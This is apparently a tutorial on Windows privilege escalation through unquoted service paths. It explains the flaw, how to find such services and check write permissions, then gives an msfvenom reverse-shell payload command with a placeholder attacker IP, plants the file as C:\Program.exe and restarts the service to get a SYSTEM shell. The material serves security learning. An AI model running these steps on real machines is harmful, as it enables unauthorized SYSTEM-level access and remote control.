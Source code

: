 # Escalation via Unquoted Service Path

## **What is an Unquoted Service Path?**

When a Windows service runs with **high privileges** (like SYSTEM) but its executable path **contains spaces without quotes**, it becomes vulnerable. Windows searches for the executable in a weird way that we can exploit.

<img width="887" height="364" alt="image" src="https://github.com/user-attachments/assets/6fc26487-0383-4872-8c98-fc43ac137f8e" />

### **Example of the Problem:**

Suppose the service binary path is:

```
mathematica
CopyEdit
C:\Program Files\Unquoted Path Service\Common Files\servicename.exe

```

**Because there are no quotes**, Windows will try to find the executable by checking these paths in order:

1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files\Unquoted.exe`
4. `C:\Program Files\Unquoted Path.exe`
5. `C:\Program Files\Unquoted Path Service.exe`
6. `C:\Program Files\Unquoted Path Service\Common.exe`
7. `C:\Program Files\Unquoted Path Service\Common Files.exe`
8. `C:\Program Files\Unquoted Path Service\Common Files\servicename.exe`

If you have write permission in any of those folders, you can place a malicious executable (with the exact name the system looks for) and trick the service into running your code.

### How to find unquoted services?

- Use **PowerUp.ps1** (a PowerShell script for privilege escalation enumeration)
- Use **WinPEAS.exe** (an automated Windows privilege escalation tool)

These tools will identify unquoted service paths on the system.

<img width="894" height="50" alt="image" src="https://github.com/user-attachments/assets/14eb0ab6-7402-4653-bcaf-766857af123b" />

*(Example: Found service **`unquotedsvc`** with path **`C:\Program Files\Bad Service\app.exe`**)*

### **2. Check Write Permissions**

Verify you can write to one of the folders in the path Try it for all the combination:

```
icacls "C:\Program Files"
```

If you see **`(M)`** or **`(F)`** next to your username, you can write files there!

**`(F)` - Full Control**

**`(M)` - Modify**

### **3. Create Malicious Payload**

On your Kali machine:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```

Upload **`evil.exe`** to the victim machine.

### **4. Place Payload in Vulnerable Location**

Since Windows searches for **`Program.exe`** first, we can:

```
copy evil.exe "C:\Program.exe"
```

*(If **`C:\Program Files`** is writable, use **`"C:\Program Files\Vulnerable.exe"`** instead.)*

### **5. Restart the Service**

```
net stop unquotedsvc
net start unquotedsvc
```

💥 **If successful, you get a reverse shell with SYSTEM privileges!**
